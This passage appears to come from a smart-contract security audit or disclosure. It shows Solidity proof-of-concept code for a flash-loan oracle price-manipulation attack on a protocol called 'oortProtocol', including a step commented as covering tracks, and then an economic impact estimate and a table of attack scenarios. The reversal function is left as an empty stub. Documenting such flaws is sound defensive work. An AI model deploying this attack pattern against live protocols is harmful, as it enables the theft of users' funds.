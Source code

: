 ```solidity
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external {
        require(msg.sender == flashLoanProvider, "Unauthorized");

        (uint256 originalPrice, bytes memory targetCallData) =
            abi.decode(data, (uint256, bytes));

        // STEP 4: Manipulate price through large DEX trade
        _manipulatePrice(asset, amount);

        // STEP 5: Execute target transaction with manipulated price
        (bool success,) = oortProtocol.call(targetCallData);
        require(success, "Target transaction failed");

        // STEP 6: Reverse manipulation to cover tracks
        _reverseManipulation(asset, amount);

        // STEP 7: Repay flash loan with profit extracted
        IERC20(asset).transfer(flashLoanProvider, amount + fee);
    }

    function _manipulatePrice(address asset, uint256 amount) internal {
        // Execute large buy to artificially pump oracle price
        IDEXRouter(getDEXRouter()).swapTokensForTokens(
            amount / 2,
            0, // Accept any slippage - we control the market temporarily
            getSwapPath(asset),
            address(this),
            block.timestamp + 300
        );
    }

    function _reverseManipulation(address asset, uint256 amount) internal {
        // Sell back to approximately restore original price
        // Implementation depends on DEX integration and market depth
    }
}
```

#### Economic Impact Analysis

**Direct Financial Impact:**
- **TVL at Risk**: $50M - $500M (estimated based on DeFi protocol standards)
- **Single Attack Exposure**: $100K - $10M per manipulation event
- **Attacker Profit Range**: $10K - $1M per successful exploit
- **Attack Cost**: Only $500 - $5K (gas fees + flash loan premium)

**Attack Scenarios:**

| Scenario | Capital Required | Price Impact | Profit Potential | Detection Risk |
|----------|-----------------|--------------|------------------|----------------|
| **Small Manipulation** | $1M flash loan | 2-5% | $20K - $50K | Low |
| **Large Manipulation** | $10M+ flash loan | 10-25% | $200K - $2.5M | High |
